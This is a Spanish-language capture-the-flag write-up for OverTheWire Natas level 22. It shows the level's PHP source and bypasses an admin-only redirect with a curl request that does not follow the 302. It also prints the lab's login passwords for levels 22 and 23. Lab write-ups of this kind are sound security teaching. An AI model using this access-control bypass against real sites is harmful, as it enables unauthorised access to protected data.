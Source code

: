 ```yaml
---
title: Natas-22
published: true
---
```


```
Url del reto: http://natas20.natas.labs.overthewire.org/index.php
login:natas22
 pass:natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

Se nos presenta el siguiente codigo:

```php

session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
```
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas22", "pass": "<censored>" };</script></head>
<body>
<h1>natas22</h1>
<div id="content">
```
```php
<?php
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```

El reto es conseguir saltarnos la redirección que hay en el primer bloque de php

```php
if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
```

Si lo intentamos por el navegador enviar la petición por GET revelio, siempre se nos aplicará la redirección 302 y no ejecutará el segundo bloque php.

Pero... y si realizamos una petición mediante curl?

```
admin1@php:~$ curl -s -u natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ http://natas22.natas.labs.overthewire.org/index.php?revelio | html2text 

****** natas22 ******
You are an admin. The credentials for the next level are:
Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
View_sourcecode
```

Pues que no realizará dicha redirección y ejecutará el bloque php que nos interesa. La autenticación de este nivel es:

```
Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
```

[Volver al archivo](archive)

